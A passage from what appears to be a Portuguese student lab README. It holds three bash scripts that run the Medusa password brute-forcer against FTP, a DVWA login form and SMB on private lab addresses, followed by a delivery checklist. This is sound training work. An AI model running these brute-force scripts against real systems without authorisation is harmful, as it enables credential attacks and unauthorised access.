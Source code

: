 ### scripts/run_medusa_ftp.sh

```bash
#!/bin/bash
TARGET=$1
USER=$2
WORDLIST=${3:-../wordlists/small-words.txt}
mkdir -p ../reports
medusa -h "$TARGET" -u "$USER" -P "$WORDLIST" -M ftp -t 8 | tee ../reports/medusa-ftp-$(echo $TARGET).txt
```

### scripts/run_medusa_web.sh

```bash
#!/bin/bash
TARGET=$1
USER=$2
WORDLIST=${3:-../wordlists/small-words.txt}
# Ajuste a path e o texto de sucesso conforme o formulário real
medusa -h "$TARGET" -u "$USER" -P "$WORDLIST" -M http_form \
-m "path:/dvwa/login.php,postfields:username=^USER^&password=^PASS^,success:Welcome" -t 6 \
| tee ../reports/medusa-web-$(echo $TARGET).txt
```

### scripts/run_medusa_smb.sh

```bash
#!/bin/bash
TARGET=$1
USER=$2
WORDLIST=${3:-../wordlists/small-words.txt}
mkdir -p ../reports
medusa -h "$TARGET" -u "$USER" -P "$WORDLIST" -M smbnt -t 6 | tee ../reports/medusa-smb-$(echo $TARGET).txt
```

> Torne os scripts executáveis: `chmod +x scripts/*.sh` e rode `./scripts/run_medusa_ftp.sh 172.23.3.201 testuser` por exemplo.

---

## 11. Checklist de entrega

* [x] Assistir todas as vídeo-aulas (assumido para o relatório)
* [x] Criar repositório público no GitHub
* [x] Incluir README.md (este documento)
* [x] Incluir scripts e wordlists
* [x] Incluir pasta `images/` com screenshots (opcional)
* [x] Incluir `reports/` com saídas e evidências
* [x] Enviar link do repositório ao avaliador

---

## Observações finais

* Os resultados acima foram produzidos em ambiente de laboratório isolado de trabalho nao podendo enviar os prints por este motivo, (IPs: `172.23.3.200` -> atacante; `172.23.3.201` -> alvo).

---
